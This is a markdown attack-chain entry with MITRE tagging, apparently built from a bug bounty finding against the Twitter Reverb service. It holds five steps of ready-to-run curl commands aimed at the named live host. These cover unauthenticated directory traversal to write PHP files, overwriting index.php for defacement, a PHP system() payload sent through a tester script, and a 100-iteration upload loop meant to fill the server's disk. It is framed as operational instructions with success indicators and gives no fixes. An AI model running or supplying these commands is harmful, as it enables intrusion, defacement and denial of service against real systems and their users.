

---
tags:
  - directory-traversal
  - file-write
  - rce
  - dos
  - unauthenticated
  - php
type: attack_chain
tools:
  - '[[tools/RCE-Tester-py]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Impact]]'
verified: false
platforms:
  - Web
  - Linux
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Discover-and-Identify-reverb-twitter-com-Endpoint]]'
  - '[[procedures/Test-Legitimate-File-Upload-via-saveImage]]'
  - '[[procedures/Exploit-Directory-Traversal-for-Arbitrary-File-Write]]'
  - '[[procedures/Attempt-RCE-with-Crafted-Image-Payload]]'
  - '[[procedures/Perform-DoS-via-Repeated-Large-File-Uploads]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Python]]'
  - '[[Endpoint Denial of Service]]'
updated_at: '2025-12-14T17:24:08.092Z'
description: >-
  Multi-stage attack exploiting an unauthenticated API endpoint in
  reverb.twitter.com to achieve arbitrary file operations and potential remote
  code execution via directory traversal and crafted payloads.
id: 00c371c5-8d12-4a4d-b3df-66c69f3bc44d
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Impact]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Python]]'
  - '[[Endpoint Denial of Service]]'
---
# Unauthenticated Directory Traversal for Arbitrary File Write, Deletion, and Potential RCE in Twitter Reverb

Multi-stage attack chain exploiting an unauthenticated API endpoint in the Twitter Reverb application to perform directory traversal, arbitrary file creation/deletion, disk exhaustion DoS, and potential RCE through crafted image content processed as PHP.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/RCE-Tester-py]]
- curl or similar HTTP client (e.g., Python requests library)

### Target Environment

- Web platform with PHP and Apache (e.g., /var/www/html structure)
- Services: Twitter Reverb application at reverb.twitter.com
- Ports: Standard HTTP/HTTPS (80/443)

### Initial Access Requirements

- No credentials required (unauthenticated endpoint)
- Public network access to reverb.twitter.com
- No prior access needed

## Detailed Attack Procedures

### Step 1: Reconnaissance - Discover Domain and Endpoint
procedure: [[procedures/Discover-and-Identify-reverb-twitter-com-Endpoint]]

**Objective**: Identify the reverb.twitter.com domain and the vulnerable /api/actions/saveImage.php endpoint during research on Twitter's Bug Bounty Program.

**Instructions**: Research Twitter's Bug Bounty Program to identify backend domains like reverb.twitter.com (also known as reverb.guru), which powers the Twitter Reverb application for data visualizations. Manually test for unauthenticated endpoints by probing /api/actions/saveImage.php with POST requests.

Use a browser or curl to verify the endpoint accepts parameters without authentication:

```bash
curl -X POST https://reverb.twitter.com/api/actions/saveImage.php -d "image=SomeContent&filename=test&extension=png"
```

**Expected Output**: Server response indicating file creation without errors, confirming lack of authentication.

**Success Indicators**:
- Domain identified as backend for Twitter Reverb
- Endpoint responds to unauthenticated POST requests

### Step 2: Initial Access - Test Legitimate File Upload
procedure: [[procedures/Test-Legitimate-File-Upload-via-saveImage]]

**Objective**: Verify normal operation of the saveImage.php endpoint to understand file handling and directory structure.

**Instructions**: Send a legitimate POST request using [[commands/saveimage-normal-post]] to create a PNG file in the intended directory /var/www/html/view/data/image/.

Execute the following to simulate image upload:

```bash
curl -X POST https://reverb.twitter.com/api/actions/saveImage.php -d "image=SomeContent&filename=test&extension=png"
```

Access the created file at https://reverb.twitter.com/view/data/image/preview-test.png to confirm.

**Expected Output**: File created as preview-test.png, accessible via web.

**Success Indicators**:
- File appears in /view/data/image/ with 'preview-' prefix
- No authentication prompts or errors

### Step 3: Execution - Exploit Directory Traversal for Arbitrary File Write
procedure: [[procedures/Exploit-Directory-Traversal-for-Arbitrary-File-Write]]

**Objective**: Use directory traversal in the 'filename' parameter to write files outside the uploads directory, enabling defacement and disruption.

**Instructions**: Manipulate the filename parameter with '../' sequences to escape the intended directory. Use [[commands/saveimage-traversal-php]] to create a PHP file:

```bash
curl -X POST https://reverb.twitter.com/api/actions/saveImage.php -d "image=SomeContent&filename=/../../zigoo&extension=php"
```

For defacement, overwrite index.php using [[commands/saveimage-defacement-index]]:

```bash
curl -X POST https://reverb.twitter.com/api/actions/saveImage.php -d "image=<malicious_data>&filename=../../../../index.php&extension=php"
```

Verify by accessing https://reverb.twitter.com/view/data/zigoo.php or the modified index.

**Expected Output**: Arbitrary file created/deleted, e.g., /var/www/html/view/data/zigoo.php.

**Success Indicators**:
- File written outside /view/data/image/
- Site defacement or application files overwritten (e.g., twitterLogin.php)

### Step 4: Impact - Attempt RCE with Crafted Image Payload
procedure: [[procedures/Attempt-RCE-with-Crafted-Image-Payload]]

**Objective**: Upload crafted image content via the 'image' parameter to attempt PHP execution if processed as executable.

**Instructions**: Use [[tools/RCE-Tester-py]] to generate and send malicious image data that includes PHP code. The endpoint uses imagecreatefromstring() without sanitization, potentially allowing code in the stream.

Run the Python script to test:

```bash
python RCE-Tester.py --url https://reverb.twitter.com/api/actions/saveImage.php --filename zigoo --extension php --payload "<?php system('id'); ?>"
```

Access the uploaded file to check for execution.

**Expected Output**: If successful, PHP code executes; otherwise, image processed as PNG without RCE.

**Success Indicators**:
- Uploaded file contains attacker-controlled content
- Potential command output if RCE triggered (e.g., holds Twitter auth tokens)

### Step 5: Persistence and Disruption - Perform DoS via Repeated Large File Uploads
procedure: [[procedures/Perform-DoS-via-Repeated-Large-File-Uploads]]

**Objective**: Exhaust disk space by repeatedly uploading large files, causing server downtime.

**Instructions**: Use the DDOS() function in [[tools/RCE-Tester-py]] or loop [[commands/saveimage-dos-repeat]] to submit oversized content multiple times.

Example loop with curl:

```bash
for i in {1..100}; do curl -X POST https://reverb.twitter.com/api/actions/saveImage.php -d "image=<large_data_1MB>&filename=doS$i&extension=png"; done
```

Monitor server response times and disk usage.

**Expected Output**: Server slows or fails due to full disk.

**Success Indicators**:
- Increased file count in directory
- Server errors or downtime from resource exhaustion

## Attack Chain Summary

### Key Achievements

1. Unauthenticated access to arbitrary file write/delete via traversal
2. Potential RCE through unsanitized image processing
3. DoS via disk exhaustion and application disruption (e.g., overwriting auth files)

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Python]] PHP (for potential RCE)
- [[Endpoint Denial of Service]] Endpoint Denial of Service

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Impact]] Impact

---

*Last updated: 2023-10-01T00:00:00Z*
